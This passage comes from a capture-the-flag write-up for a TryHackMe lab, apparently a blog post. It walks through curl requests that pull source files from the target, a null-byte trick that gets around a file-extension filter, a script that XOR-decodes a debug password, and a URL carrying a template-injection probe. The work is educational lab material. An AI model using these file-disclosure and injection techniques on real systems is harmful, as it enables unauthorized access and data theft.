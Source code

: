 Read a few first lines from the script, I notice that there is a file placed in the same directory with this source code which is ‘supersecrettip.txt’. So I decided to download it using `curl`:

```
┌──(kali㉿kali)-[~/TryHackMe/supersecrettip]
└─$ curl http://supersecrettip.thm:7777/cloud -X POST -d "download=supersecrettip.txt"
b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
```

Unfortunately, I cannot decode this output and do not know what it actually does. Therefore, I move on to the `import` part and figure out the ‘debugpassword’ library might be placed in the same directory with this source code based on the comment line right after it ‘`from .`’. But the script only allows to download file with extension `.py` and `.txt` so I apply the **NULL BYTES** technique to bypass this restriction:

```
┌──(kali㉿kali)-[~/TryHackMe/supersecrettip]
└─$ curl http://supersecrettip.thm:7777/cloud -X POST -d "download=debugpassword.py%00.txt"
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'[REDACTED]')
```

<p class="message">
💡 The ‘<pre>debugpassword.py%00.txt</pre>’ will become ‘<pre>debugpassword.py</pre>’ because the ‘<pre>.txt</pre>’ is ignored after the <strong>NULL BYTE `%00`</strong>

</p>

Wow, the password (`passwd`) was encrypted with **XOR** algorithm and the key is `b'[REDACTED]'`. I write a simple script based on the encryption function:

```python
import pwn

cipher = b" \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e"
key = b'[REDACTED]'

def get_decrypted(cipher):
    return (pwn.xor(cipher, key)).decode('utf-8')

decoded_string = get_decrypted(cipher)

print(decoded_string)
```

And this is the result

```
┌──(kali㉿kali)-[~/TryHackMe/supersecrettip]
└─$ python3 decode.py
[REDACTED]Deebugg
```

Enter the result into the **password** field:

```
http://supersecrettip.thm:7777/debug?debug=%7B%7B7*7%7D%7D&password=[REDACTED]Deebugg
```
